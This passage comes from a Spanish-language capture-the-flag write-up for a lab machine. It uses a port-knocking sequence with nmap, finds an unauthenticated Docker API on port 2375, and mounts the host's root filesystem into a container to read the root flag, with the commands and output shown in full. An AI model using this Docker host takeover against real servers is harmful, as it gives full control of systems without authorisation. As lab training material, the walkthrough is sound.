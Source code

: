 Hay vemos la flag, pero mas interesante la nota que hay, esta hablando de que esta cansado de tener que abrir el puerto de administracion de docker y tuvo que aver una configurado una regla en el firewall que al momento de escanear en orden los puertos que nos indican, un nuevo puerto deberia abrirse esta tecnica se llama port knocking (golpeo de puertos).

El golpeo de puertos es un mecanismo para abrir puertos externamente en un firewall mediante una secuencia preestablecida de intentos de conexión a puertos que se encuentran cerrados.

Simplemente tenemos que tocar uno por uno en orden los puertos que nos indican, lo voy hacer con nmap de la siguiente manera.
```bash
❯ for port in 42 1337 10420 6969 63000;do echo "[+] Puerto $port"; nmap -p$port 10.10.75.132 ;done
```
Si volvemos a escanear la maquina victima con nmap veremos que aparece otro puerto abierto.
```bash
❯ nmap -p- --open 10.10.75.132
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-13 21:23 -05
Nmap scan report for 10.10.75.132
Host is up (0.17s latency).
Not shown: 48968 closed tcp ports (conn-refused), 16564 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2375/tcp open  docker

Nmap done: 1 IP address (1 host up) scanned in 83.86 seconds
```
Vemos el puerto 2375 que es el puerto docker, bueno atraves de este puerto podemos hacer cosas interesantes, como crear nuevos contenedores, entre otras muchas mas cosas.

Veamos Que imaganes hay displonibles, esto lo hare definiendo una variable de entorno, la cual tiene la ip y el puerto del demonio de docker.

```bash
❯ DOCKER_HOST=tcp://10.10.75.132:2375 docker images
REPOSITORY                                    TAG       IMAGE ID       CREATED       SIZE
exif-api-dev                                  latest    4084cb55e1c7   2 years ago   214MB
exif-api                                      latest    923c5821b907   2 years ago   163MB
frontend                                      latest    577f9da1362e   2 years ago   138MB
endlessh                                      latest    7bde5182dc5e   2 years ago   5.67MB
nginx                                         latest    ae2feff98a0c   2 years ago   133MB
debian                                        10-slim   4a9cd57610d6   2 years ago   69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3       7331d26c1fdf   2 years ago   103MB
alpine                                        3.9       78a2ce922f86   2 years ago   5.55MB
```
Ahora voy a crear un contenedor y voy a usar una montura para que toda la raiz del sistema de la maquina victima me lo monte en el directorio /mnt/machine del contenedor que voy a crear.
```bash
❯ DOCKER_HOST=tcp://10.10.75.132:2375 docker run -it -v /:/mnt/machine alpine:3.9 sh
/ # ls /mnt/machine/
bin             dev             home            initrd.img.old  lib64           media           opt             root            sbin            swapfile        tmp             var             vmlinuz.old
boot            etc             initrd.img      lib             lost+found      mnt             proc            run             srv             sys             usr             vmlinuz
/ #
```
Podemos ver que en la carpeta /mnt/machine se creo correctamente la montura y vemos toda la raiz del sistema, podemos visualizar la flag que esta en el directorio /root.
